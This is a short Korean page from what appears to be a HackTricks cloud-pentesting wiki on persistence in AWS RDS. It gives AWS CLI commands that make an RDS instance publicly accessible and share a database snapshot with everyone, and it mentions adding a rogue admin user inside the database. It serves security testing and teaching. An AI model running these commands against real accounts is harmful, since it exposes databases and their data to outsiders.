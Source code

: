 # AWS - RDS 지속성

{{#include ../../../banners/hacktricks-training.md}}

## RDS

자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### 인스턴스를 공개적으로 접근 가능하게 만들기: `rds:ModifyDBInstance`

이 권한을 가진 공격자는 **기존 RDS 인스턴스를 수정하여 공개 접근성을 활성화할 수 있습니다**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### DB 내에 관리자 사용자 생성

공격자는 **DB 내에 사용자를 생성**할 수 있으므로 마스터 사용자 비밀번호가 수정되더라도 **데이터베이스에 대한 접근을 잃지 않습니다**.

### 스냅샷 공개 설정
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
